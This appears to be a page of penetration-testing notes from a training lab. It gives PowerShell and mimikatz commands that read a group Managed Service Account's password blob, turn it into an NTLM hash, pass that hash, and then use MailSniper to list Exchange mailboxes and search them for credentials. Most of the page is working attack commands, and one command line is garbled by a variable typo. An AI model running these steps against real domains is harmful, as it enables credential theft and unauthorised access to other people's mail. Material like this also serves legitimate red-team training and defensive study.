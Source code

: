 ### gMSA (group Managed Service Account)

##### Methodology

>   1.   A `gMSA` has a object class `msDS-GroupManagedServiceAccount`.
>   2.   The attribute `msDS-GroupMSAMembership` (`PrincipalsAllowedToRetrieveManagedPassword`) list the principals that can read the password blob.
>   3.   The attribute ‘`msDS-ManagedPassword` stores the password blob in binary form of `MSDS-MANAGEDPASSWORD_BLOB`.
>   4.   Once we compromised a principal that can read the blob, use `DSInternals` to compute the NTLM hash.
>   5.   Pass the NTLM hash of `gMSA` and get the privileges.

```powershell
# 1. Enumeration of account
# Using ADModule
Get-ADServiceAccount -Filter *

# Using PowerView
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'

# 2. Enumerate password blob
# List principals that can read the password blob
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword

# 3. Compute NTLM hash from password blob
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordlob ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword

# 4. Pass the Hash
sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c...
```

### MS Exchange

##### Methodology/Steps

>   1.  Load in [MailSniper](https://github.com/dafthack/MailSniper) using powershell
>   2.  Enumerate and pull all the emails
>   3.  Save all the emails in a file called emails.txt
>   4.  Now check if you have access to any other mailboxes
>   5.  Check for data inside the email address where the body contains data like password or creds

------

##### MailSniper

```powershell
# 1. Enumerate all mailboxes
Get-GlobalAddressList -ExchHostname us-exchange -verbose -UserName us\studentuser1 -password <password>

# 2. Enumerate all mailboxes we have access to (means current user)
Invoke-OpenInboxFinder -EmailList emails.txt -ExchHostname us-exchange -verbose 

# 3. Once we have identified mailboxes where we can read emails, use the following to read emails.
Invoke-SelfSearch -Mailbox pwnadmin@techcorp.local -ExchHostname us-exchange -OutputCsv .\mail.csv
```
